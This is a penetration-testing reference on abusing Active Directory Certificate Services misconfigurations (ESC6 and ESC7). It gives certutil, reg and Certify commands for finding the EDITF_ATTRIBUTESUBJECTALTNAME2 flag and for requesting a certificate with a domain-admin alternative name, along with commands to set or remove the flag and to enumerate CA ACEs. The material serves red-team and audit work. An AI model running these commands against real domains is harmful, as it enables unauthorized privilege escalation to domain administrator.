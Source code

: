 ### <mark style="color:orange;">Vulnerable PKI Object ACEs (ESC5)</mark> <a href="#vulnerable-pki-object-aces-esc-5" id="vulnerable-pki-object-aces-esc-5"></a>

#### `EDITF_ATTRIBUTESUBJECTALTNAME2` (ESC6) <a href="#editf_attributesubjectaltname2-esc-6" id="editf_attributesubjectaltname2-esc-6"></a>

> If this flag is set on the CA, any request (including when the subject is built from Active Directory) can have user defined values in the subject alternative name.

This means that an adversary can enroll in **any** template configured for domain authentication that also allows unprivileged users to enroll (e.g., the default `User` template) and obtain a certificate that allows to authenticate as a domain admin or any other active user/machine.

Discover with certutil:

```
Cmd > certutil.exe -config "CA01.megacorp.local\CA01" -getreg "policy\EditFlags"
Or
Cmd > reg.exe query \\CA01.megacorp.local\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\CA01\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\ /v EditFlags
```

Discover with Certify:

```
Cmd > .\Certify.exe find
```

To abuse request a certificate specifying an `/altname` with any template that allows for domain auth (e.g., the default `User` template which normally doesn't allow to specify alternative names):

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:User /altname:DomAdmin
```

This setting can be set with domain admin's privileges like this (_dangerous, do not do this!_):

```
Cmd > certutil.exe -config "CA01.megacorp.local\CA01" -setreg "policy\EditFlags" +EDITF_ATTRIBUTESUBJECTALTNAME2
```

Remove this setting:

```
Cmd > certutil.exe -config "CA01.megacorp.local\CA01" -setreg "policy\EditFlags" -EDITF_ATTRIBUTESUBJECTALTNAME2
```

### <mark style="color:orange;">Vulnerable CA ACEs (ESC7)</mark> <a href="#vulnerable-ca-aces-esc-7" id="vulnerable-ca-aces-esc-7"></a>

Enumarate CA ACEs with Powershell [PSPKI](https://github.com/PKISolutions/PSPKI):

```powershell
PS > Install-Module -Name PSPKI
PS > Import-Module PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA01.megacorp.local | Get-CertificationAuthorityAcl | select -ExpandProperty access
```
